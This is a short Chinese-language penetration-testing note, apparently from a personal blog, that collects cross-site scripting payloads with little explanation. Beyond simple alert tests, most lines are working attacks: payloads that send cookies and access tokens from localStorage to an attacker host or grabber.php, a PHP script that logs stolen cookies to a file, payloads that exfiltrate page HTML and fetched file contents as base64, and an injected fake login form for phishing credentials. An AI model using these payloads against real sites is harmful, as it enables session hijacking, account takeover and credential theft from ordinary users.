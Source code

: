 ```yaml
---
title: XSS
date: 2023-11-28 13:14:53
permalink: /pages/47513b/
categories:
  - 网络安全
  - 渗透测试服务访问
tags:
  - 
author: 
  name: 帅德华
  link: https://github.com/s-dehua
---
```

  #### 确定XSS
  	反射型XSS可使用payload:<script>alert(1)</script>
  	存储型不适宜alert(1)
  	更好的替代品
  	<script>alert(document.domain.concat("\n").concat(window.origin))</script>
  	<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
  #### 打COOKIE
	<svg/onload="javascript:document.location.href=('http://xx.xx.xx.xx:7777?cookie='+document.cookie)">
	<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
	<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
	<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
	<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
	获取的cookie写入文件
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
  #### 读取HTML
	<svg/onload="document.location='http://xx.xx.xx.xx:7777/?'+btoa(document.body.innerHTML)">
  #### 读文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{
			document.location='http://xx.xx.xx.xx:7777/?'+btoa(xmlhttp.responseText);
		}
	}
	xmlhttp.open("GET","file.php",true);
	xmlhttp.send();
	">
  #### 修改HTML
  	<script>
  	history.replaceState(null, null, '../../../login');
  	document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
  	</script>